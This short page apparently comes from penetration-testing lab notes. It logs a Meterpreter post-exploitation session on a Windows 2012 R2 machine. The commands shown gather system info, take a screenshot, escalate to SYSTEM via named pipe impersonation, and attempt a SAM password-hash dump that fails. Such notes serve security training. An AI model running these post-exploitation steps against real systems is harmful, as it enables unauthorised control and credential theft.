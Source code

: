 ```bash
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    
meterpreter > getuid
    Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
meterpreter > help
```

```bash
meterpreter > screenshot
    Screenshot saved to: /root/iOIoztJU.jpeg
```

<figure><img src="../../../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

```bash
meterpreter > hashdump
    [-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```
